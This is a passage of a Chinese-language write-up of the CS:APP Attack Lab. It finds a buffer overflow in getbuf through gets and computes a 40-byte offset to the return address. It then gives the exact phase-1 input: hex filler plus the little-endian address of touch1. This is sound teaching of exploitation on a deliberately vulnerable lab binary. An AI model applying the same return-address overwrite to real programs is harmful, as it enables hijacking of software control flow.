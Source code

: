 - 代码注入脆弱点位于`getbuf`函数中，该函数会调用`gets`函数，这可能会造成溢出。  
  在该函数中，字符串所存入的地址为`0x5561dc78`，当前函数的返回地址存储于`0x5561dca0`，其相对偏移为`40`  
  ![Wrong](img/csapp-lab-writeup/ctarget_2.png)  
- **phase1**
  - 该关卡只要求将程序的控制流返回至`touch1`函数中即可，其中该函数的地址为`0x4017c0`  
  - 这里需要利用栈溢出来修改栈上的**函数返回地址**
  - 故最终的输入文件如下
    > 注意文件中的`00`不可省略，因为这是函数地址的一部分（64位中指针大小为8字节）
    > 注意**小端序**

      ```text
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      c0 17 40 00 00 00 00 00
      ```

    通过当前关卡的截图如下
